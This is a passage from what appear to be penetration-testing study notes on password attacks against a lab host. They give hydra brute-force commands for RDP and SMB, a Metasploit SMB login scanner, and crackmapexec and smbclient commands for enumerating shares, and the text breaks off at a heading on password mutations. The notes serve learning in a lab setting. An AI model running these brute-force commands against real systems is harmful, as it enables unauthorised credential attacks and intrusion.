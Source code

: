       # to test creds found above
      ssh user@10.129.42.197
      ```
  
  * RDP (Remote Desktop Protocol):

    * allows remote access to Windows via TCP/3389
    * RDP defines 2 participants - the terminal server and the terminal client
    * ```hydra``` can be used for RDP bruteforcing as well:

      ```sh
      hydra -L user.list -P password.list rdp://10.129.42.197

      # for RDP connection
      xfreerdp /v:10.129.42.197 /u:user /p:password
      ```
  
  * SMB (Server Message Block):

    * for data transfer between client & server in LANs
    * ```hydra``` can be used here again:

      ```sh
      hydra -L user.list -P password.list smb://10.129.42.197
      # if we get an error 'invalid reply from target smb://'
      # this means outdated hydra version for SMBv3 replies
      # in that case we can use Metasploit

      msfconsole -q

      use auxiliary/scanner/smb/smb_login

      options
      # set the required options and run the module

      # we can view the shares using crackmapexec
      crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares

      # we can also use smbclient
      smbclient -U user \\\\10.129.42.197\\SHARENAME
      ```

* Password Mutations:

  * based on company password policies, most common passwords are in the following format:

